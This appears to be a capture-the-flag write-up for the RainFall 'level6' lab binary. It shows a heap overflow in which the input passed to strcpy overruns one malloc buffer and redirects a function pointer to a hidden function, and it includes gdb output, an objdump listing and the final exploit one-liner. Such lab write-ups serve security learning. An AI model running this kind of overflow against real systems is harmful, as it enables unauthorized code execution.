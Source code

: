 First, let's analyze the binary. The program performs two malloc operations one after the other, and there are two functions: one that is called via a function pointer and another that is not called.

Let's focus on the malloc operations in our program. There are two, one after the other, and the second one becomes the function pointer of m before being executed.

Since the malloc calls are made directly one after the other, it is predictable that their addresses will follow each other. argv[1] is copied into the first malloc buffer using strcpy.

We will overflow the first malloc buffer to reach the second one and redirect it to n instead of m.

To do this, we will start by determining the size of the first malloc buffer using wiremask to provide a pattern.

```
level6@RainFall:~$ gdb level6
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

When we put `0x41346341` in `wiremask` it find an offset of 72.


After that, we will look for the pointer to n.


```Shell
objdump -t level6
...
08049824  w      .data  00000000              data_start
08048454 g     F .text  00000014              n
0804982c g       *ABS*  00000000              _edata
...
```

address of `n` : `08048454`
little-endian : `/x54/x84/x04/x08`

Putting this together give us :
```Shell
./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```
